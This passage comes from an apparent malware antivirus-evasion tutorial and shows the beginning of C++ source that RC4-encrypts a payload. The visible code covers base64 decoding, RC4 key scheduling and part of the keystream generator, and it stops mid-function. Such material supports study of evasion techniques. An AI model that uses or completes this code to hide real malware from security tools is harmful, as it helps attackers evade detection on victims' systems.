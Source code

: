 
Finally, we have full source code:      

```cpp
/*
hack.cpp
RC4 encrypt payload
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
    i = (i + 1) % 256;
    j = (j + s[i]) % 256;
    swap(&s[i], &s[j]);
    keystream[k] = s[(s[i] + s[j]) % 256];
```